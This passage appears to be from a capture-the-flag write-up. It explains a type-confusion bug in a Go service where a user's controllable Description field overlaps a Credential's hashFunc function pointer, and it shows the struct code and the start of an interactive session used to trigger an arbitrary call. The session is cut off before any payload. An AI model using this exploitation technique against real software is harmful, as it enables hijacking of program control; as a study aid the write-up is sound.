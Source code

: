 This is the type confusion vulnerability, the service interprets `User` object as a `Credential` object. Let's look at the `Credential` struct:

```go
type HashFunc func(Credential) string

type Credential struct {
	created time.Time

	hashFunc HashFunc
	password string
}
```

There is a function pointer `hashFunc` inside the structure at offset 0x18. This pointer is accessed in `Credential.String()` function:

```go
func (credential Credential) String() string {
	var hash string

	if credential.hashFunc != nil {
		hash = credential.hashFunc(credential)
		hash = hash[:3] + "***" + hash[len(hash)-3:]
	} else {
		hash = "***"
	}

	return hash
}
```

Let's look at the `User` struct:

```go
type User struct {
	Id          int
	Name        string
	Description string

	CredentialId int
}
```

There is a string `Description` at the offset 0x18. We can control the user's description using `UPDATE` handler. Let's trigger the arbitrary call:

```
[!] Hello! Please, use `HELP` for available commands.
> REGISTER
[?] Please, enter username: AAAAAAAA
[?] Please, enter password: BBBBBBBB
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {2f8***890}
[DEBUG] Added user entry {***}
[+] Registered successfully.
> UPDATE
[?] Please, enter description: CCCCCCCC
[+] Description updated.
> LOGOUT
> LOGIN
[?] Please, enter username: AAAAAAAA
[?] Please, enter password: BBBBBBBB
[+] Logged in successfully.
> LOGOUT
> REGISTER
[?] Please, enter username: DDDDDDDD
[?] Please, enter password: EEEEEEEE
```
